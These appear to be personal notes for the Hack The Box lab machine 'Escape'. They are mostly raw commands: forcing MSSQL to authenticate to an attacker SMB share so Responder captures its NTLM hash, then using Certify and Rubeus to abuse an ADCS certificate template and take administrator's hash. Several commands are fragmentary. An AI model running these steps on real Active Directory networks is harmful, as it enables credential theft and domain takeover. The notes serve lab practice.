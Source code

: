 
=================================================================================
escape


./mssqlclient.py sequel.htb/PublicUser:GuestUserCantWrite1@dc.sequel.htb == access to the mssql
select name from master..sysdatabases; == to see the database s in the mssql
EXEC xp_dirtree '\\10.10.14.6\share', 1, 1
EXEC master..xp_subdirs '\\10.10.110.17\share\' == then we run the responder to get the hash


sudo apt install responder
sudo responder -I tun0


hashcat .. .. -o
sudo apt update && sudo apt install -y bloodhound

upload Certify.exe
.\Certify.exe find /vulnerable /currentuser  == to see the vulnerable hosts (we have the WriteOwner Principals)
.\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:administrator == request a certificate



copy the certificate and past it in the .pem file because the formate is/was pem
then convert it to .pfx
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx


.\Rubeus.exe asktgt /user:administrator /certificate:C:\Users\Ryan.Cooper\Documents\cert.pfx == to get hash of the admin
.\Rubeus.exe asktgt /user:administrator /certificate:C:\Users\Ryan.Cooper\Documents\cert.pfx /getcredentials /show /nowrap == to see the hash of the admin

evil-winrm -H

.........................................................................

sqsh -S 10.10.11.202 -U PublicUser -P "GuestUserCantWrite1"
./mssqlclient.py sequel.htb/PublicUser:GuestUserCantWrite1@dc.sequel.htb

The first thing I’ll try is running commands through MSSQL server using the xp_cmdshell stored procedure. Unfortunately for me, it fails:

https://enterprise.hackthebox.com/academy-lab/4784/5017/modules/116/1169

curl -L https://github.com/SpecterOps/BloodHound/raw/main/examples/docker-compose/docker-compose.yml | docker compose -f - up

sudo apt install responder
openssl s_client -showcerts -connect <ip or fqdn of your active directory server>:636 == to see if there is any CA and the certificate
................................................................


pip3 install certipy-ad


=================================================================================
Metabase RCE exploitation and Ubuntu OverlayFS local privilege escalation
